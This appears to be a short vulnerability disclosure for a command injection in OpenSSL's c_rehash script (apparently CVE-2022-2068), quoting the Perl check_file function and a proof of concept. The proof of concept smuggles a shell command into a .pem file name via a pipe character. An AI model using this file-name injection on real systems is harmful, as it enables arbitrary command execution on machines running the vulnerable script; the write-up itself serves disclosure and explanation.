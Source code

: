 ## OpenSSL 命令注入漏洞

I found another command injection vulnerability while analyzing CVE-2022-1292.<br>
https://github.com/openssl/openssl/blob/master/tools/c_rehash.in#L138<br>
```
sub check_file {
  my ($is_cert, $is_crl) = (0,0);
  my $fname = $_[0];
  open IN, $fname;#Command Injection!!
  while(<IN>) {
      if (/^-----BEGIN (.*)-----/) {
          my $hdr = $1;
          if ($hdr =~ /^(X509 |TRUSTED |)CERTIFICATE$/) {
              $is_cert = 1;
              last if ($is_crl);
          } elsif ($hdr eq "X509 CRL") {
              $is_crl = 1;
              last if ($is_cert);
          }
      }
  }
  close IN;
  return ($is_cert, $is_crl);
}
```
When executing open IN, $fname;, $fname causes command injection.<br>
![CVE-2022-2068_00](./Images/CVE-2022-2068_00.png)<br>
poc.pem 's content:<br>
```
cat '| ls -al>test.txt |.pem'
-----BEGIN X509 CERTIFICATE-----
```

The root causes of the vulnerability are as follows:<br>

```
https://perldoc.perl.org/perlipc#Using-open%28%29-for-IPC
https://perldoc.perl.org/functions/open#Opening-a-filehandle-into-a-command
```